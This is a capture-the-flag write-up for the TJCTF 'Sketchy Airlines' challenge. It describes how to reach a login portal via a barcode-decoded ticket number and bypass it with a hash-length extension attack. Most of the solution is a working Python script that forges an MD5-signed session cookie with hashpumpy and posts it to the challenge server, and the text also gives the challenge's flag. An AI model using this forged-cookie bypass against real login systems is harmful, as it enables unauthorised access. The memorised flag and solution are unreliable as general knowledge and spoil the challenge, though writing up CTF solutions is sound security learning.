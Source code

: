 # Sketchy Airlines (100 pts)

---

## Problem

---

## Solution

1) Scan barcode given in picture (type is PDF417) to get his ticket number
2) Get to login portal by entering ticket number
3) Use a Hash-length extension attack to bypass the login. Set username to his full name
4) Run pdftotext on the PDF that is returned. Get flag.

Python code to generate the LEA:
```
import hashpumpy
import urllib2
import requests

# md5($SECRET_KEY . $sess_str)
session = 'logged_in%253Dfalse%2526name%253D'
session = urllib2.unquote(session)
session = urllib2.unquote(session)
digest = '2cc207d867af2d2a55ff4141b6e3e8f2'

append = '&logged_in=true&name=John Doe'

#generate a valid hash and message
hp = hashpumpy.hashpump(digest, session, append, 16)
hsh= hp[0] 
msg= hp[1]
msg = urllib2.quote(msg)
print "msg="+msg
print "hash="+hsh

cookies = {'session':msg, 'hash':hsh}
url = 'http://sketchyairlines.p.tjctf.org/verify_login.php?flight=2198-b14f-e3c9-c54d-0b65'
r = requests.post(url, data = {'username':'admin', 'password': 'password', 'debug': 'true'}, cookies = cookies)

f = open("flight.pdf", "w+")
f.write(r.content)
f.close()
```

---

## Flag
`tjctf{h1d3_y0UR_84RC0d3s}`
